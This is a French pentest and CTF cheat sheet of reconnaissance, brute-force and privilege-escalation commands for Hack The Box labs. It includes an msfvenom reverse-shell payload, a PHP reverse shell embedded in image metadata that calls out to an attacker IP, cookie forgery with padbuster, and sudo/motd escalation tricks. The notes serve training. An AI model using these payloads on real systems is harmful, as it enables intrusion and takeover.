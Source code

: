 # Methodes :

## Recherche de failles (exploit)

searchsploit -m URI // --outil de recherche de faille pour outils communs
uikto -h url
nmap -p 445 --script vuln 10.10.10.4 -Pn

nmap ( 
 -A : détection du système et des versions
 -sP : simple ping scan
 -sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
 -sN/sF/sX: Scans TCP Null, FIN et Xmas
 -sU: Scan UDP 
 -T4 : Définit une temporisation[0-5]
  )
nmap -A -T4 -sV 10.10.10.157

enum4linux -a <IP>

## Enumération
gobuster --url http://target.com/ dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

++ Pour trouver les fichiers du type php,txt,html,htm.
gobuster --url http://docker.hackthebox.eu:30030/api/ dir --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x php,txt,html,htm

m

dirb http://target.com/ /usr/share/dirb/wordlists/common.txt

## FUZZ
wfuzz -c -z file,'shell.txt' http://10.10.10.181/FUZZ
wfuzz --hh=24 -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://docker.hackthebox.eu:30030/api/action.php?FUZZ=test

## Injection SQL
Trouver des sitesvulnérables via injection SQL :
sqliv -d inurl:item.php?id= -e bing -p 100

## Processus
Liste des processus : htop

## Network
netstat -tulp
(port ouvert en local)

## Bruteforce
hydra

Scanner les répertoires d'un site web :

## ReverseShell

explorer les sous domaines : dig axfr @10.10.10.13 cronos.htb​​ after adding ​ cronos.htb​​ to the ​ /etc/hosts​​ file.


## Privilege Escalation

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

## Création d'un serveur WEB

python -m SimpleHTTPServer <PORT>
-> Lance un serveur web dans le répertoire local

## Reverse Enginerring

### GBD
Commandes gdb :

disass main -> désassemblage de la fonction main

b *0x5655555d0 -> placer un breakpoint à l’adresse spécifiée

x/x $eip -> Affiche la valeur d’un registre ($ = valeur)

x/i $eip -> Affiche la prochaine instruction dans le registre eip

x/wx $esp -> Affiche la valeur sur la stack

r -> run

c -> continue

dumpargs -> dumper les arguments du programme

Pour faire un buffer overflow, il suffit de récupérer l’adresse de la sauvegarde du registre eip et l’adresse de début du buffer, on peut soustraire les deux et trouver le nombre de caractères que prend en compte notre buffer

Compiler sans protection :

gcc -m32 -fno-stack-protector -z execstack bof.c -o bof

-> Si la compil en 32bits ne fonctionne pas, installer libc en 32bits :

apt-get install libc6-dev-i386




Rajouter au fichier host :
nano /etc/hosts

python -c 'import pty; pty.spawn("/bin/sh")'

Reverse shell samples :

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Scripts d’énumération automatique :

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

Commandes d’interaction (pour CTF communs)

who

-> Affiche les tty connectés

wall "hello world !"
-> Envoie un message sur tous les tty connectés

Transfert de fichiers

socat TCP4-LISTEN:1234 TCP4:10.10.10.171:80 &
-> Lance un relai TCP vers une autre machine (pivoting)

Pratique lorsqu’on se connecte à HTB via un VPS



apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
->Lance un serveur ftp dans le répertoire courant

impacket/examples/smbserver.py -smb2support -username guest -password guest share /root/htb
-> Lance un serveur smb accessible en tant que guest/guest

Possibilité d’y accéder sous Windows avec un net use

Enumération :

nslookup -type=<MX / A / AAA / TXT / CNAME / PTR> <DOMAIN>
nslookup -type=MX test.fr

nmap ( 
 -A : détection du système et des versions
 -sP : simple ping scan
 -sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
 -sN/sF/sX: Scans TCP Null, FIN et Xmas
 -sU: Scan UDP 
 -T4 : Définit une temporisation[0-5]
  )
nmap -A -T4 -sV 10.10.10.157

nmap --script <SCRIPT> -p <PORT> <IPADDRESS>
nmap –script smb-vuln* -p 139,445 10.10.10.134

nikto -h <URL> -p <PORTS>
nikto -h 192.168.0.1 -p 80,443

gobuster --url <IP ADDRESS> dir --wordlist <WORDLIST> -x <EXTENSION>
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //<IPADDRESS>/ -U ""
Enumération des répertoires partagés accessibles en anonymous

rpcclient -U "" -N 10.10.10.180
Accès en RPC de façon anonyme (WINDOWS)

enum4linux -a 10.10.10.180
Enumération SMB, RPC & co (WINDOWS)

cat *.txt | gobuster --url 10.10.10.157 dir --wordlist -
-> pour piper plusieurs wordlists dans gobuster

dirb <url> <wordlist>
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
 -a "agent" -> spécifie un user-agent
 -R -> récursivité interactive
 -o output.txt -> redirige l'output
wfuzz --hh=<PARAM_SIZE>  -w <WORDLIST> <URL>.php?<PARAM_NAME>=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test

Exploitation & Elévation de privilèges :

python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet

padbuster <URL> <COOKIE> <BLOCK_SIZE> -cookies "<PHPESSID_COOKIE> <OPTIONNAL_COOKIES>" --plaintext '<NEW_VALUE>'
padbuster http://docker.hackthebox.eu:59436/profile.php tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D 8 -cookies “PHPSESSID=74j9m7o8pbaq8pdoq3l56rvpk4; iknowmag1k=tu%2FOelHH0Nx8BaMhIurtihnbzj6YiABdvdMp0%2Fm6NII%2FClg%2B5Os9Rg%3D%3D” –plaintext ‘{“user”:”test”,”role”:”admin”}’

searchsploit -t <INTITLE>  <KEYWORDS> -w
searchsploit windows local smb

sudo -l
-> liste les commandes autorisées pour l’utilisateur courant

find / -type d -writable 2> /dev/null
-> Liste les répertoires accessibles en écriture

find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
-> Liste les binaires exécutables par l’utilisateur courant

find / -type f -perm /6000 -ls 2>/dev/null 
-> Liste les fichiers setuid/setgid sur le système

find / -iname "mon_fichier" -print 2>/dev/null
-> Trouver un fichier précis sur le système

binwalk socute.jpg 
-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)

msfvenom -p windows/meterpreter/reverse_tcp lhost=<LOCALIP> lport=<LOCALPORT> -f <FORMAT> > <OUTPUTFILE>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

 exiftool -Comment='<?php $sock = fsockopen("<IPADDRESS>",<PORT>);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>'   <IMAGE>
exiftool -Comment='<?php $sock = fsockopen(“10.10.10.1”,1234);$proc = proc_open(“/bin/sh -i”, array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png

Injection SQL :

sqlmap -u <URL> (--dbs / --tables -D <DATABASE> / --columns -D <DATABASE> -T <TABLENAME>)
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES

Bruteforce :

crunch <MIN> <MAX> <CONTENT>
crunch 4 15 “abcdefghijklmnopqrstuvwxyz”

hydra -l <USER> -P <WORDLIST> <IP ADDRESS> <METHOD> <URL>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l <LOGIN> -P <WORDLIST> <URL> <METHOD>"<PAGE>:<ARGUMENT>=^<VALUE>^:<INCORRECT STRING>" -w <THREADS> -s <PORT>
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form “/index.php:password=^PASS^:Invalid password” -w 10 -s 45692

john --incremental <HASHFILE>
Pour bruteforcer de façon incrémentale

john <HASHFILE> --wordlist=/usr/share/wordlists/rockyou.txt
Pour bruteforcer avec un dictionnaire

Script de bruteforce anti-CSRF :

https://github.com/J3wker/anti-CSRF_Token-Bruteforce

Mémo Assembleur

Les Registres et leurs fonctions :


Les Instructions :





Rapport de scan nmap :
nmap -A ip
nmap -sC -sV -sT -oN magic.txt Magic.htb
nmap --script smb-vuln* -p 135,139,445 10.10.10.169 //Vulnérabilité SMB

Enum4Linux:
enum4linux 10.10.10.172

Obtenir le passphrase :
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
chmod 700 id_rsa id_rsa.hash
john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash

Voir la liste des droits sudo de l'utilisateur actuel :
sudo -l
sudo -u root nano /chemin/
Executer une commande depuis un fichier CTRL+R and CTRL+X



Parcourir un fichier sans cd :
ls local/config (etc cat ..)

Afficher les fichiers cachés sur linux :
ls -lAR​ ​ /home/george

connect to sysadmin :
echo 'os.execute("bin/bash -i")' > hack.lua
sudo -u sysadmin /home/sysadmin/luvit hack.lua

Afficher du contenue de fichier lors de la connection :
cd /etc/update-motd.d/ #Mise à jour tout les 30 secondes
echo "cat /root/root.txt" >> 00-header

Voir l'historique:
cat .bash_history
history

Memo :
Penser à chercher les infos dans les sources webs. id et mdp.

ImageHidding afficher les trucs cachés :
steghide extract -sf HackerAccessGranted.jpg

Ecouter sur un port :
nc -lvp port //Listenning on any adress


LinEnum.sh
Service HTPPServer Python : python -m SimpleHTTPServer <PORT>


Pour Privilege esclation sur une session meterpreter:
background
Lister les sessions : sessions -l
Changer de session : session -i 1
Reconnaissance : use post/multi/recon/local_exploit_suggester

